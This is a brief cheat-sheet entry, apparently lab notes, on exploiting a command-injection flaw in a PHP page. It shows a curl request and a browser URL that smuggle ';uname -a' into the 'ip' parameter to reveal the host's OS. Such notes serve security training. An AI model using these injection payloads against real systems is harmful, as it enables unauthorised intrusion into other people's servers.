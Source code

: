 # Curl

### If the web application is vulnerable to Command Injection...

### From a terminal this will filter Curl and only print the OS and architecture of the web application host.
```
curl http://<IP>/<Subdirectory>/example1.php?ip=";uname%20-a" 2>&1 | awk '/<pre>/{flag=1;next}/pre>/{flag=0}flag'
```
Alternatively you can also just enter "uname -a" directly into the web browser address bar in this format.
```
http://<IP>/<Subdirectory>/example1.php?ip=127.0.0.1;uname -a
```
